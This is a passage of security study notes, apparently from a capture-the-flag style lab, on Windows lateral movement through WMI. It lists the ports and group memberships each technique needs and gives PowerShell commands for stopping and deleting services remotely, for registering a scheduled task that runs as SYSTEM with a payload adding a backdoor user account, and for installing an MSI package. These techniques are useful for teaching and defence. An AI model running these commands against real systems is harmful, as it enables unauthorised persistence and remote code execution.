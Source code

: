 - Finally, we can `stop` and `delete` with the following commands:

```powershell
> Invoke-CimMethod -InputObject $Service -MethodName StopService
> Invoke-CimMethod -InputObject $Service -MethodName Delete
```



### Creating Scheduled Tasks Remotely with `WMI`

- Ports:

		- 135/TCP, 49152-65535/TCP (DCERPC)
		- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

- Required Group Memberships: `Administrators`

##### We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```


##### To delete the scheduled task after it has been used:

```powershell
> Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```


### Installing MSI packages through WMI

-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCERPC)
    -   5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
-   **Required Group Memberships:** Administrators

- `MSI` is a file format used for installers.
- If we can copy an MSI package to the target system, we can then use `WMI` to attempt to install it for us.
- The file can be copied in any way available to the attacker.
- Once the `MSI` file is in the target system, we can attempt to install it by invoking the `Win32_Product` class through `WMI`:

```powershell
> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

